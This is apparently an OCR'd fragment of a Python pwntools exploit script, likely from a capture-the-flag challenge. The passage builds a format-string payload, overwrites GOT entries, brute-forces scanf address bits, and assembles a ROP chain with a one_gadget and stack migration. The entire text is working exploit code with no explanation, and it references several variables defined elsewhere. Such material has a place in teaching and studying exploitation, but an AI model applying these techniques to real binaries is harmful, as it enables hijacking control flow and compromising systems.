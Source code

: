 ```py
    payload = flat({
        0: fmt,
        0x8: b"%12$p%4c",
        0x10: pack(exe.got['memset']) + ropchain,
        }, filler=b' ')

    scanf_guess = ""

    for i in range(0x30, 0x100, 0x10):
        print("*** TRYING SCANF {} ***".format(hex(i)))
        io = start()
        io.send(fmt)
        io.send(payload)
        io.send(overwrites)
        io.send(p8(i))

        try:
            io.recv(1, timeout=2)
            io.close()
            scanf_guess = hex(i)
            break
        except:
            io.close()

    print("FGETS: " + fgets_guess)
    print("SCANF: " + scanf_guess)

one_gadget = 0xcbd1d
guess_base = libc.sym['dprintf'] & 0xfff
print(hex(guess_base))

restore_base = libc.sym['scanf'] & 0xfff

rop = ROP(exe)

data = 0x601e00
leakstr = data + 0x0
resetstr = data + 0x10

fakestack = data - 0x100

rop.call('__isoc99_scanf', [exe.sym['buf']+4, leakstr])

rop.call('__isoc99_scanf', [exe.sym['buf']+4, resetstr])

rop.call('__isoc99_scanf', [exe.sym['buf'], exe.got['__isoc99_scanf']])

rop.call('__isoc99_scanf', [1, leakstr])

rop(r14 = exe.got['fgets'])
rop.raw(rop.ret)

rop.call('__isoc99_scanf', [1, resetstr])

rop(r14 = exe.got['__isoc99_scanf'])
rop.raw(rop.ret)

rop.call('__isoc99_scanf', [exe.sym['buf']+4, fakestack])

rop(r12 = 0, r13 = 0)

rop.migrate(fakestack)

```